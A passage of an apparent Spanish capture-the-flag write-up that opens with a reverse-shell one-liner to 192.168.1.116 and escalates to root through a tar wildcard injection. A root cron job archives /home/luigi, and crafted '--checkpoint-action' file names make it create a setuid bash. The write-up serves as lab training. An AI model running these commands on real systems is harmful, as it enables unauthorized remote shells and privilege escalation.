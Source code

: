 ```
/usr/bin/bash -c "/usr/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"
```

Encontramos una tarea programada que se ejecuta cada minuto por el usuario root.

```bash
luigi@22ae1bc1f511:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/local/bin/backup.sh

luigi@22ae1bc1f511:/$ cat /usr/local/bin/backup.sh
#!/bin/bash
mkdir -p /backups
cd /home/luigi/
tar -czf /backups/home_luigi_backup.tar.gz *

luigi@22ae1bc1f511:/$ ls -la /usr/local/bin/backup.sh
-rwxr-xr-x 1 root root 91 Dec 27 23:11 /usr/local/bin/backup.sh
```

No tenemos permisos de escritura sobre el fichero de la tarea programada pero podemos aprovechar esta tarea para hacer un TAR Wildcard, porque sí tenemos permisos en la carpeta `/home/luigi`.

```bash
luigi@22ae1bc1f511:/home/luigi$ echo "cp /usr/bin/bash /tmp/b && chmod +s /tmp/b" > cpbash.sh
luigi@22ae1bc1f511:/home/luigi$ chmod +x cpbash.sh 
luigi@22ae1bc1f511:/home/luigi$ touch ./'--checkpoint=1' 
luigi@22ae1bc1f511:/home/luigi$ touch ./'--checkpoint-action=exec=sh cpbash.sh'
luigi@22ae1bc1f511:/home/luigi$ ls -la
total 32
-rw-r--r-- 1 luigi root     0 Feb  2 01:15 '--checkpoint-action=exec=sh cpbash.sh'
-rw-r--r-- 1 luigi root     0 Feb  2 01:14 '--checkpoint=1'
drwxr-xr-x 1 luigi luigi 4096 Feb  2 01:15  .
drwxr-xr-x 1 root  root  4096 Dec 27 23:11  ..
-rw-r--r-- 1 luigi luigi  220 Feb 25  2020  .bash_logout
-rw-r--r-- 1 luigi luigi 3771 Feb 25  2020  .bashrc
-rw-r--r-- 1 luigi luigi  807 Feb 25  2020  .profile
-rwxr-xr-x 1 luigi root    43 Feb  2 01:14  cpbash.sh
drwxr-xr-x 3 luigi luigi 4096 Dec 27 23:11  subversion
```
